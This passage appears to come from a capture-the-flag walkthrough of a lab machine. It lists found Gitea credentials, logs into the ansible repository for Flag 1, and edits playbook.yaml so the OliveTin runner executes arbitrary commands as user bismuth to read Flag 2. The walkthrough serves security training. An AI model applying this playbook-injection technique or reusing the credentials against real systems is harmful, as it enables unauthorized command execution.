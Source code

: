We get:
```
gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```
<img width="1233" height="189" alt="Screenshot From 2025-05-19 21-50-28" src="https://github.com/user-attachments/assets/bfb5fb07-1855-48ef-b5a0-ffa0e4234ee4" />
<img width="1244" height="570" alt="Screenshot From 2025-05-19 21-55-42" src="https://github.com/user-attachments/assets/13208ecf-1814-4bc6-8f19-d08aa0c5bf8b" />


---

After logging in to **Gitea**, we see a repository named **ansible**. Inside is **Flag 1**.

<img width="1239" height="736" alt="Screenshot From 2025-05-19 21-55-48" src="https://github.com/user-attachments/assets/7a72f0af-7638-45a5-91a3-96ec415c7e99" />

---

Next, we go to:

```
http://cats.thm:1337/
```

<img width="1854" height="975" alt="Screenshot From 2025-05-19 21-57-54" src="https://github.com/user-attachments/assets/ae2e0ae5-0137-41f2-b38b-146eb29a801b" />


Running **Ansible** and checking logs reveals a user named **bismuth**.

<img width="1461" height="742" alt="Screenshot From 2025-05-19 22-01-17" src="https://github.com/user-attachments/assets/22d305b1-b784-482e-beea-bf1a820e71e2" />

We can edit `playbook.yaml` in the ansible repo to run our own commands:

```yaml
---
- name: Test 
  hosts: all
  remote_user: bismuth
  tasks:
    - name: get the username running the deploy
      become: false
      command: cat flag2.txt
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

Run the playbook in OliveTin and **Flag 2** appears.

---
